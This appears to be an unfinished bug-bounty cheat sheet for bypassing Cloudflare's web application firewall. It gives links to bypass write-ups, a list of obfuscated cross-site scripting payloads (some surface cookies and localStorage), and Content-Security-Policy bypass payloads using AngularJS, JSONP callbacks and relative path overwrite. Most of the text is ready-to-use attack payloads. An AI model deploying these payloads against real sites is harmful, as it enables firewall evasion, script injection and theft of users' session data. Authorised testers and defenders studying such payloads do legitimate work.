 Hello there,
Its still undergoing updates. 

Cloudflare 

#Check Endpoints 
	Check from Documentaion : https://github.com/cloudflare/cloudflare-docs

#Check for misconfigurations : 


#Must check links to visit 
1. https://bxmbn.medium.com/how-i-test-for-web-cache-vulnerabilities-tips-and-tricks-9b138da08ff9
2. https://medium.com/@the_harvester/bypassed-cloudflares-web-application-firewall-waf-44da57f3a1d3
3. https://ltsirkov.medium.com/cross-site-scripting-via-web-cache-poisoning-and-waf-bypass-6cb3412d9e11
4. https://codewithvamp.medium.com/bypassing-cloudflare-waf-with-host-address-manipulation-dd3508cce2f8
5. https://infosecwriteups.com/how-i-was-able-to-bypass-cloudflare-for-xss-e94cd827a5d6
6. https://medium.com/@mdnafeed3/bypassing-cloudflare-error-1015-you-are-being-rate-limited-f25f4e8f7bb2
7. https://royzsec.medium.com/cloudflare-bypass-leads-to-rxss-reflected-cross-site-scripting-in-microsoft-a76404669ee9
8. https://infosecwriteups.com/crlf-injection-xxx-how-was-it-possible-for-me-to-earn-a-bounty-with-the-cloudflare-waf-f581506f97f5
9. https://systemweakness.com/how-i-bypassed-cloudflare-waf-to-get-my-first-bug-f02dab3a2d10
10. https://systemweakness.com/automate-and-finds-the-ip-address-of-a-website-behind-cloudflare-45db99510b4b


#Some payloads 

<svg%0Aonauxclick=0;[1].some(confirm)//

<svg onload=alert%26%230000000040"")>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>
<svg onx=() onload=(confirm)(1)>

<svg onx=() onload=(confirm)(document.cookie)>

<svg onx=() onload=(confirm)(JSON.stringify(localStorage))>

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u -xss popup

<svg onload=alert%26%230000000040"1")>

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

For more EDR and WAF 

https://youtube.com/@LinuxbyVikku


1. Third Party Endpoints + ('unsafe-eval')
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval'; 
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>

2. Third Party Endpoints + JSONP
Content-Security-Policy: script-src 'self' https://google.com https://youtube.com; object-src 'none';
"><script src="https://google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>

3. Third Party Abuses
Content-Security-Policy​: default-src 'self’ http://facebook.com;​
Content-Security-Policy​: connect-src http://facebook.com;​

4. Bypass via RPO (Relative Path Overwrite)
For example, if CSP allows the path https://example.com/scripts/react/, it can be bypassed as follows:
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>



